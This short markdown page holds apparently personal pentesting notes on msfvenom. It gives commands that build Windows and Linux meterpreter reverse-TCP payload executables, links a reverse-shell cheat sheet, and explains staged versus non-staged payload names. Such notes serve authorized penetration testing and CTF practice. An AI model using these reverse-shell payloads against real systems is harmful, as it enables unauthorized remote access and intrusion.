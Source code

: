 # MSFVenom

To see the available payloads: `msfvenom -l payloads`
- Filter by piping to grep
- [Cheat Sheet](https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/)

Build a payload with MSFVenom:

```
# Windows:
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=[local ip] LPORT=1234 -f exe > payload.exe

# Linux:
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=[local ip] LPORT=1234 -f elf > payload
```

A staged payload will follow this syntax: 

```
windows/x64/meterpreter/reverse_tcp
linux/x86/meterpreter/reverse_tcp
```

A non-staged payload will follow this syntax: 

```
windows/x64/meterpreter_reverse_tcp
linux/x86/meterpreter_reverse_tcp
```
